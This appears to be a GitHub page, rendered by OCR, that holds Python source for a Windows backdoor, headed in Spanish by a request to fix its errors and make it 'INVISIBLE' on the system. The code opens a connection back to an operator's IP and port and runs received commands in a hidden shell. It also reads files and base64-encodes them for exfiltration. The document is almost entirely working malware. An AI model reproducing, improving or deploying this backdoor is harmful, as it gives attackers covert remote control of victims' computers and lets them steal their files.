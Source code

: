 * Mejora necesaria para el backdoor-windows.py para que no tengamos ningun error, y hacerlo INVISIBLE en el sistema.

```bash
import socket
import subprocess
import json
import os
import base64
import sys

class Backdoor:

    def __init__(self,ip,port):
        self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        self.connection.connect((ip,port))
        self.connection.send("\n[+] Conexion establecida \n".encode())
    
    def envio_seguro(self, datos):
        json_data = json.dumps(datos)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        
        while True:
            try:
             
               json_data = self.connection.recv(1024).decode("utf-8")
               return json.loads(json_data)
            except ValueError:
                continue
    
    def ejecutar_comando(self,comando):
        DEVNULL = open(os.devnull,"wb")
        return subprocess.check_output(comando,shell=True,stderr=DEVNULL,stdin=DEVNULL).decode("windows-1252")

    def cambiar_directorio(self,ruta):
        os.chdir(ruta)
        return "[+] Cambiando de directorio a {} \n".format(ruta)
    
    def leer_archivo(self,ruta):
        with open(ruta,"rb") as file:
            return base64.b64encode(file.read()).decode("utf-8")

    def run(self):
        while True:
            comando = self.reception_segura()
            try:
                if comando[0] == "salir":
                    self.connection.close()
                    sys.exit()
                elif comando[0] == "cd" and len(comando) > 1:
                    resultado_comando = self.cambiar_directorio(comando[1])
                elif comando[0] == "descargar":
                    resultado_comando = self.leer_archivo(comando[1])
                else:
                    resultado_comando = self.ejecutar_comando(comando)
            except Exception:
                resultado_comando = "[-] Error de ejecution \n"

            self.envio_seguro(resultado_comando)
       
```